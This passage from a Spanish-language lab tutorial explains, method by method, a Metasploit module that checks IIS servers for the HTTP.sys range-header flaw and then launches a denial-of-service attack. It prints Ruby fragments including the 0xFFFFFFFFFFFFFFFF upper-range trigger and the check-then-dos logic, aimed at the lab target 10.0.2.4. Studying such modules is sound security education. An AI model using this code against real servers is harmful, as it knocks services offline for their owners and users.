 **upper_range** es un método para definir el **rango superior** o más alto para el Buffer Overflow y generar el ataque DoS.
```ruby
def upper_range
    0xFFFFFFFFFFFFFFFF
end
```
**target_uri** es otra función que define el URI objetivo (Identificador Uniforme de Recursos) a atacar.
```ruby
def target_uri
    @target_uri ||= super
  end
```

4) **run_host**

Este método ejecuta el módulo para realizar el ataque de **BO**, tiene como *argumento* la dirección IP de la víctima (en este caso 10.0.2.4), la cual evalua con la función **check_host()** si en caso presenta la vulnerabilidad de **HTTP.sys**. Si el servidor tiene la vulnerabilidad, entonces se genera un ataque DoS usando **dos_host()**, sino se envía un mensaje de error indicando que el objetivo no presenta dicha vulnerabilidad.
```ruby
def run_host(ip)
    if check_host(ip) == Exploit::CheckCode::Vulnerable
      dos_host(ip)
    else
      print_status("Probably not vulnerable, will not dos it.")
    end
  end
```

5) **get_file_size**

Esta función determina el tamaño del archivo en la URI especificada (bytes). Utiliza las funciones **normalize_uri()** y **send_request_raw()** para normalizar el URI objetivo (modificar y estandarizar de manera consistente los **URIs**) y enviar una solicitud HTTP a la URI objetivo respectivamente. Se realizan los siguentes casos:
 - Si la respuesta es **nil**, se imprime un error de tiempo de espera.
 - Si la respuesta tiene un código de estado 404, se imprime un error de recurso no encontrado o no válido.
 - Si la respuesta es exitosa, se calcula el tamaño del archivo como la longitud del cuerpo de la respuesta y se imprime un mensaje de estado y finalmente, se retorna el tamaño del archivo (bytes).

```ruby
def get_file_size(ip)
  @file_size ||= lambda {
    file_size = -1
    uri = normalize_uri(target_uri.path)
    res = send_request_raw('uri' => uri)

    unless res
      vprint_error("Connection timed out")
      return file_size
    end

    if res.code == 404
      vprint_error("You got a 404. URI must be a valid resource.")
      return file_size
    end

    file_size = res.body.length
    vprint_status("File length: #{file_size} bytes")

    return file_size
  }.call
end
```